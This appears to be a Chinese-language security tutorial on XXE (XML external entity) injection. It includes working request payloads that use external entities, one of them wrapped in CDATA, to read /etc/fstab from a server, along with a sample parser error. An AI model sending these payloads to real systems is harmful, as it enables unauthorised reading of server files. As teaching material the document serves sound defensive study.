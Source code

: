 通常对于XXE的经典用法，用来读取文件比较直接方便，但是，也决定了能被解析的内容元素必须是XML文档。

如下面一个例子：

request:

```xml-dtd
POST http://example.com/xml HTTP/1.1

<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY bar SYSTEM
  "file:///etc/fstab">;
]>
<foo>
  &bar;
</foo>
```

response:

通常会得到如下响应

```xml
HTTP/1.0 500 Internal Server Error

File "file:///etc/fstab", line 3
lxml.etree.XMLSyntaxError: Specification mandate value for attribute system, line 3, column 15...

```

`/etc/fstab`是一个包含一些看起来像XML的字符的文件（即使它们不是XML）。这将导致XML解析器尝试解析这些元素，只是注意到它不是有效的XML文档。

因此，这限制了XML外部实体（XXE）在以下两个重要方面。

- XXE只能用于获取包含“有效”XML的文件或响应

- XXE不能用于获取二进制文件

  **XML外部实体（XXE）限制解决办法**

  ​       这其实也就用到了外部参数实体，解决了命名实体和普通实体所带来的一些问题。具体如下分析：

  ​      攻击者可以通过使用一些巧妙的技巧来解决上述限制。攻击者使用XML外部实体（XXE）攻击所面临的主要问题是，它很容易撞了南墙试图exfiltrate不是有效的XML文件（包含XML特殊字符，如例如，文件明文文件时`&`，`< and >`）。

  **理论上的解决办法**

  ​       XML已经解决了这个问题，因为有些合法的情况可能需要在XML文件中存储XML特殊字符。`CDATA`XML解析器忽略（Character Data）标记中的特殊XML字符。 

  ```xml
  <data><![CDATA[ < " ' & > characters are ok in here ]]></data>
  ```

  因此，从理论上讲，攻击者可以发送类似于以下内容的请求。 

  request:

  ```xml-dtd
  POST http://example.com/xml HTTP/1.1
  
  <!DOCTYPE data [
    <!ENTITY start "<![CDATA[">
    <!ENTITY file SYSTEM 
  "file:///etc/fstab">
    <!ENTITY end "]]>">
    <!ENTITY all "&start;&file;&end;">
  ]>
  <data>&all;</data>
  ```
